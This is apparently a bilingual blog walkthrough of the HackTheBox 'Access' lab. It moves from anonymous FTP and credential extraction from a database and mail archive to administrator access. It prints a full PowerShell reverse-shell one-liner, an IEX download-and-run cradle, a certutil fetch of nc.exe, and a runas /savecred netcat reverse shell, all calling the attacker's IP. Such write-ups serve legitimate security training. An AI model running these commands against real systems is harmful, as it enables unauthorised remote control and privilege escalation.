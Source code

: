 ```yaml
---
layout: post
title:  "HackTheBox >_ Access_98"
description: walkthrough
category: HackTheBox
---
```

# Access_98

![image-20200918211934278]({{ site.url }}/assets/Access_98.assets/image-20200918211934278.png)

## Scan results

![1 ]({{ site.url }}/assets/Access_98.assets/F97EA608-E47E-4DE6-8896-3BAC2687AA27.png)

![image-20200918212709128]({{ site.url }}/assets/Access_98.assets/image-20200918212709128.png)

首先从ftp开始测试

Try test begin at FTP

FTP allowed anonymous access

![image-20200918212856823]({{ site.url }}/assets/Access_98.assets/image-20200918212856823.png)

搜索ftp内的内容

Search everything in FTP, we found two files, `Access Control.zip` and `backup.mdb`.

![2]({{ site.url }}/assets/Access_98.assets/0FF6FFBA-49DE-4129-B449-6A5E12BFA87A.png)

![3 ]({{ site.url }}/assets/Access_98.assets/543796BB-8EA9-492B-87FB-44E69BD005E3.png)

![4 ]({{ site.url }}/assets/Access_98.assets/114105A2-9AEA-401F-872F-2242460ACAAF.png)

更改传输模式并将文件夹中的两个文件下载下来

We can use `binary` command to trun the trans type to binary , then transfer the two files back to Kali.

![5 ]({{ site.url }}/assets/Access_98.assets/E6A9351E-DC63-439D-9C5A-6EE043C3C08A.png)

`backup.mdb`看文件名应该是Access数据库的备份，`.mdb`是微软Access数据库文件的后缀名。

我门可以使用`mdb-tables`命令对数据库文件进行快速查看

`backup.mdb`looks like a backup file from Microsoft Access database.

We can use `mdb-tables` to check this file easily .

```bash
$ mdb-tables backup.mdb
```

![image-20200918214757034]({{ site.url }}/assets/Access_98.assets/image-20200918214757034.png)

结果非常杂乱，但是我们可以注意到有一些跟用户验证及权限有关的数据表。

The results are so mass, but we still can saw some tables about user, auth and permissions.

可以使用`mdb-export`导出感兴趣的数据表。

We can use `mdb-export` to export database table which we interested in.

```bash
$ mdb-export backup.mdb auth_user
```

![image-20200918215810429]({{ site.url }}/assets/Access_98.assets/image-20200918215810429.png)

在`auth_user`表中得到了三组凭证。

```bash
admin:admin
engineer:access4u@security
backup_admin:admin
```

使用这三个凭证去尝试解压剩下的压缩文件`Access Control.zip`。

正确的凭证是`engineer:access4u@security`

解压后得到新的文件`Access Control.pst`

![6 ]({{ site.url }}/assets/Access_98.assets/87F20E7B-C020-4C82-9C31-21BEAA353D89.png)

得出的.pst文件是 Microsoft Outlook 个人文件夹文件

可以使用readpst工具

```bash
$ readpst -tea -m Access\ Control.pst
```

![image-20200918221027940]({{ site.url }}/assets/Access_98.assets/image-20200918221027940.png)

得到新的文件，查看文件发现新的凭证

![image-20200918221120702]({{ site.url }}/assets/Access_98.assets/image-20200918221120702.png)

```bash
security:4Cc3ssC0ntr0ller
```

这个凭证应该可以在其他服务上利用

查看80端口

![image-20200918221446602]({{ site.url }}/assets/Access_98.assets/image-20200918221446602.png)

查看23端口

![image-20200918221542185]({{ site.url }}/assets/Access_98.assets/image-20200918221542185.png)

23端口可以使用这个凭证直接登陆，获得user

![image-20200918221718555]({{ site.url }}/assets/Access_98.assets/image-20200918221718555.png)

现在我们拥有一个普通用户权限的shell,但是这个shell非常不稳定

在kali本地准备一个powershell脚本，比如nishang

地址[https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

注意修改kali ip

```text
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.3',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

在kali本地建立简单的php服务

```bash
$ php -S 0.0.0.0:80
```

并且在kali 4444端口设立监听

```bash
$ nc -nvlp 4444
```

在目标23端口的shell执行

```text
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.3/shell.ps1')
```

这时我们可以在kali监听端口获得一个更稳定的shell

进行一些提权前的常规枚举后，可以发现，目标机器使用了保存凭证功能，并且保存的是管理员的凭证

![image-20200918224048143]({{ site.url }}/assets/Access_98.assets/image-20200918224048143.png)

拥有保存 的凭证就意味着可以直接使用`runas`命令以管理员权限运行命令

想使用certutil 将 nc 下载到靶机本地

```text
certutil -urlcache -split -f http://10.10.14.3/nc.exe nc.exe
```

在kali上新的端口设立另外一个监听

然后使用`runas`利用管理员权限向我们的监听端口通讯

```text
runas /user:Administrator /savecred "nc.exe -e cmd.exe 10.10.14.3 1337"
```

Root

![image-20200918225847881]({{ site.url }}/assets/Access_98.assets/image-20200918225847881.png)

## 额外知识

Windows可能出于多种原因存储凭据。

其中之一是，系统管理员可能已将应用程序配置为以管理用户身份运行，并且指定了“ / savecred”开关。

Windows中没有办法将“ runas / savecred”特权的使用限制为单个应用程序

-一旦配置了该特权，runas可用于运行任何特权提升的命令。

那系统管理员为什么选择使用“ runas / savecred”呢？

某些原因是使他们不必重复输入（或提供）管理员密码，或者可能是为了运行特权较高的应用程序以绕过应用程序白名单或允许进行写访问到受保护的应用程序目录。

通常，“ runas / savecred”用于创建快捷方式，用户单击该快捷方式即可运行所需的应用程序。以下命令用于枚举系统上所有可访问的快捷方式（.lnk）文件，并检查它们是否存在“ runas”命令。

```text
Get-ChildItem "C:\" *.lnk -Recurse -Force | ft fullname | Out-File shortcuts.txt
ForEach($file in gc .\shortcuts.txt) { Write-Output $file; gc $file |Select-String runas }
```

